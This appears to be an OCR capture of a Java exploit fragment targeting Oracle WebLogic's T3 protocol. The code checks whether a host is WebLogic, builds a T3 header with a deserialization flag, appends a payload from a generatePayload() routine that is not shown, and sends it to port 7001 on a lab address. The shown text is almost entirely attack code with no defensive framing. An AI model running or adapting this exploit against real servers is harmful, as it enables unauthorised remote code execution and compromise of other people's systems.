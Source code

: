 ```java
        Matcher matcher = pattern.matcher(responseData);
        if (matcher.find()) {
            System.out.println("WebLogic");
        } else {
            System.out.println("Not WebLogic");
            socket.close();
            return;
        }
        
        // Construct the full payload with headers and exploit data
        byte[] header = hexStringToByteArray("00000000");
        byte[] t3Header = hexStringToByteArray("016501ffffffffffffffff000000690000ea60000000184e1cac5d00dbae7b5fb5f04d7a1678d3b7d14d11bf136d67027973720078720178720278700000000a000000030000000000000006007070707070700000000a000000030000000000000006007006");
        byte[] desFlag = hexStringToByteArray("fe010000");

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        byteArrayOutputStream.write(header);
        byteArrayOutputStream.write(t3Header);
        byteArrayOutputStream.write(desFlag);
        byteArrayOutputStream.write(payload);

        byte[] fullPayload = byteArrayOutputStream.toByteArray();

        // Set the length in the correct place
        byte[] lengthPrefix = new byte[4];
        for (int i = 0; i < 4; i++) {
            lengthPrefix[i] = (byte) ((fullPayload.length >> (8 * (3 - i))) & 0xFF);
        }
        
        // Send the payload
        outputStream.write(lengthPrefix);
        outputStream.write(fullPayload, 4, fullPayload.length - 4);
        outputStream.flush();
        
        socket.close();
    }

    // Helper function to convert hex string to byte array
    private static byte[] hexStringToByteArray(String s) {
        int len = s.length();
        byte[] data = new byte[len / 2];
        for (int i = 0; i < len; i += 2) {
            data[i / 2] = (byte) ((Character.digit(s.charAt(i), 16) << 4)
                                + Character.digit(s.charAt(i + 1), 16));
        }
        return data;
    }

    public static void main(String[] args) {
        String ip = "192.168.152.128";
        int port = 7001;

        try {
            // Generate the payload
            byte[] payload = generatePayload();
            
            // Exploit WebLogic server
            T3Exploit(ip, port, payload);
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
```